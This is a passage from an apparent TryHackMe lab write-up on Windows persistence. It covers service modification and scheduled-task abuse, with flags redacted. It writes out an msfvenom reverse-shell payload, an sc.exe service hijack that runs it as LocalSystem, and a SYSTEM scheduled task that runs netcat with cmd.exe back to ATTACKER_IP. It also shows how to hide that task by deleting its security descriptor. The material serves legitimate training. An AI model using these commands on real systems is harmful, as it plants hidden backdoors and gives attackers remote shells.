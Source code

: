 ### Modifying existing services

For this task we also want to create a reverse shell script via msfvenom:
```bash
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```
Once again, we would also want to start a nc listener on port ```5558```

Copy the rev-svc2.exe to our victim's machine just like before:
```bash
Invoke-WebRequest -Uri "http://10.201.84.210:8000/rev-svc2.exe" -OutFile "C:\Windows\rev-svc2.exe"
```
To reconfigure "THMservice3" parameters, we can use the following command:
```bash
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

This should gets us in.
```bash
C:\Windows\system32>C:\flags\flag8.exe
C:\flags\flag8.exe
THM{REDACTED!!!}
```
Q2. 

<img width="621" height="105" alt="flag8" src="https://github.com/user-attachments/assets/a4b1bbe2-e1c3-46f8-a55b-4ab22d9fff96" />

## Abusing Scheduled Tasks

## Task Scheduler 

In the Victim's machine create a task schedule that runs every 1 minute:
```bash
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```
Open the registry editor by:
```bash
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```
And go to ```HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\```
We will want to delete its security descriptor.

Going to our attacker's machine and start up a netcat listener on port ```4449```

We should get our flag.
```bash
C:\Windows\system32>C:\flags\flag9.exe
C:\flags\flag9.exe
THM{REDACTED!!!}
```

Q1. 
<img width="621" height="105" alt="flag9" src="https://github.com/user-attachments/assets/6b65d0ce-034d-4d1c-acbd-5ca49216458e" />

---